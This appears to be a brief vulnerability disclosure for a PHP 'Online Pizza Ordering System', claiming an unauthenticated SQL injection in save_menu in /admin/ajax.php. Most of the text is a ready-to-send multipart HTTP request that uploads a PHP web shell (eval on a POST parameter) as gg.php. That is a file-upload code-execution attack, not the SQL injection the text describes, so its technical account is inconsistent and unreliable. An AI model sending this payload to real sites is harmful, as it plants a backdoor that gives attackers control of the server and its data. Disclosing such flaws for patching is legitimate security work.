 

The Online Pizza Ordering System has an SQL injection vulnerability, which can be exploited by an attacker to steal information or corrupt a database without authentication.



Source code address：https://www.sourcecodester.com/php/16166/online-pizza-ordering-system-php-free-source-code.html



The vulnerability is located in save_menu in the /admin/ajax.php file, and you can see in the code snippet that the parameters passed in are concatenated directly with the SQL statement.

![image-20250326231245124](images/image-20250326231245124.png)



Vulnerability verification：

```
POST /php-opos/admin/ajax.php?action=save_menu HTTP/1.1
Host: 192.168.80.152
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
DNT: 1
Connection: keep-alive
Content-Type: multipart/form-data; boundary=---------------------------912513259994
Content-Length: 799

-----------------------------912513259994
Content-Disposition: form-data; name="id"


-----------------------------912513259994
Content-Disposition: form-data; name="category_id"

4
-----------------------------912513259994
Content-Disposition: form-data; name="name"

1
-----------------------------912513259994
Content-Disposition: form-data; name="description"

1
-----------------------------912513259994
Content-Disposition: form-data; name="price"

1
-----------------------------912513259994
Content-Disposition: form-data; name="status"

on
-----------------------------912513259994
Content-Disposition: form-data; name="img"; filename="gg.php"
Content-Type: application/octet-stream

<?php
eval($_POST["pass1"]);

-----------------------------912513259994--

```

 ![image-20250326231209172](images/image-20250326231209172.png)



































